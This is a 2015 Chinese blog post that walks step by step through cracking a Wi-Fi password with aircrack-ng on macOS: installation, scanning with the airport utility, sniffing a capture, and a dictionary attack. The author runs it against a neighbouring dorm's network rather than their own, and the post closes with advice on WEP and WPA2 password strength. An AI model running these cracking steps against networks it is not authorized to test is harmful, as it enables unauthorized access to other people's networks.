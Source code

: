 ```yaml
---
layout:     post
title:      无线网络攻防初探
date:       2015-10-1 11:40:25
author:     Hsmouc
summary:    使用aircrack－ng工具暴力破解Wi-Fi密码
categories: wifi
thumbnail:  heart
tags:
 - 欢迎来我的博客
---
```

- 写在文前：由于相关法律法规本文章不予显示(╯°Д°）╯︵ /(.□ . \)想什么呢…… 好吧，这项技术呢，是不允许的啦，仅供学习，而且千万不要拿隔壁人家的AP做试验喔，黑自己就好了嘛。  

##准备工作  
###原材料
1. 带网卡的计算机
2. 无线路由器 
3. Linux或Mac OS X系统 （什么你是windows？请出门右拐)
4. aircrack-ng （我才不会告诉你们我还有kismet呢）

###安装必备的工具
首先我们进[aircrack](http://www.aircrack-ng.org)的官网。右侧边栏[Installation](http://www.aircrack-ng.org/install.html)选择相应的系统，比如我选择On Mac OS X。然后它说"The simplest and easiest way to install on Mac OS X is via [Macports](https://www.macports.org). You simply do “sudo port install aircrack-ng”."默认大家都过四级了，我就不翻译了。然后我们下载一个Macports，默认大家都会用Mac装dmg。然后装好了，试试它给我的命令：
{% highlight c %}
sudo port install aircrack-ng
{% endhighlight %}
终端里出现了这样的提示
{% highlight c %}
zsh:command not found: port
{% endhighlight %}
好吧，让我们来google一下怎么了。其实这个原因很简单，你装完了Macports，但是终端并不知道你有了新后宫，所以呢更新下路径就解决了。
{% highlight c %}
sudo vi /etc/paths
{% endhighlight %}
增加新的两行：
{% highlight c %}
/opt/local/bin
/opt/local/sbin
{% endhighlight %}
*小贴士：下面装完aircrack-ng的时候还要用这个噢*
好了，让我们再输入一次:
{% highlight c %}
sudo port install aircrack-ng
{% endhighlight %}
然后终端就是这样子的:
![](http://ww1.sinaimg.cn/mw690/005WMcFzjw1ex6rt5bfh7j31400p0grg.jpg)
安装完毕后，输入aircrack-ng --help指令试试。果然还是command not found。用上面搞port问题的方法可以解决。再介绍一个其他方法：  
终端输入：
{% highlight c %}
export PATH=$PATH:/opt/local/bin
{% endhighlight %}
成功了！
##Hacking  
###扫描
在终端里输入指令：
{% highlight c %}
airport en0 scan
{% endhighlight %}
什么？你又报错了？那就对了，那是因为你没有找到airport的路径，也没有把airport加入到sbin下面。解决办法是执行下面的命令：
{% highlight c %}
sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/\Versions/Current/Resources/airport /usr/sbin/airport
{% endhighlight %}
再试一次，这时候我们看到终端上出现了一些wifi的信息。我们选择WEP加密的无线网络，记下它的channel.
###监听
使用命令：
{% highlight c %}
sudo airport en0 sniff 1
{% endhighlight %}
解释一下，我选择的是一个1信道，SSID为429的无线网络。好嘛，这就是隔壁宿舍的宿舍号嘛-_-＃之后会发现网卡进入了监听模式。过了一会，按control＋c来结束监听，这时候会提示你^CSession saved to/tmp/airportSniffxxxxx.cap，监听环节结束。
###跑包
我们首先在终端里输入：
{% highlight c %}
aircrack-ng -w ~/wordlist.txt /tmp/airportSniffxxxxxx.cap
{% endhighlight %}
-w表示使用字典， ~/wordlist.txt是字典的所在路径，/tmp/airportSniffxxxxxx.cap是包所在的位置。
回车以后
![](http://ww2.sinaimg.cn/mw690/005WMcFzjw1ex6rstrn2kj313w0cjq60.jpg)
观察handshake和IVs数值，我们选择handshack的数值为1的429，记下序号为10。在index number of target network里面输入10.
就会出现下图这样类似黑客帝国中炫酷的画面：![](http://ww1.sinaimg.cn/mw690/005WMcFzjw1ex6rswn550j313w0cjjtk.jpg)ps打不开这个截图，我就不打码了，成神别砍我T_T
##总结
一次最简单的Wi-FiHacking就这么完成了，知道你们的Wi-Fi有多不安全了吧。因为是成神的Wi-Fi，确定他不会砍我，所以我甚至没有隐藏我的MAC地址。用aircrack-ng可以做到什么程度呢？WEP/WPA2加密的无线网络，只要有足够长的时间，只要密码本足够全，破解密码只是时间问题。所以说，大家在加密Wi-Fi的时候首先不要用WEP加密，这种加密基本可以秒破。WPA2加密的密码最好保证长度，要有大小写，特殊符号等等，这样可以大大增加黑客解包的难度。被黑客攻下AP可不仅仅是多一个人蹭网的简单后果，严重程度可以参见知乎问题[无线路由器被蹭网后，有被黑的风险吗](http://www.zhihu.com/question/23061570)。  
关于aircrack-ng的其他功能我会继续介绍，我也会继续关注无线网络安全。

<li>对了,我的外置usb无线网卡已经在路上了，我会尝试使用Deauth攻击噢～</li>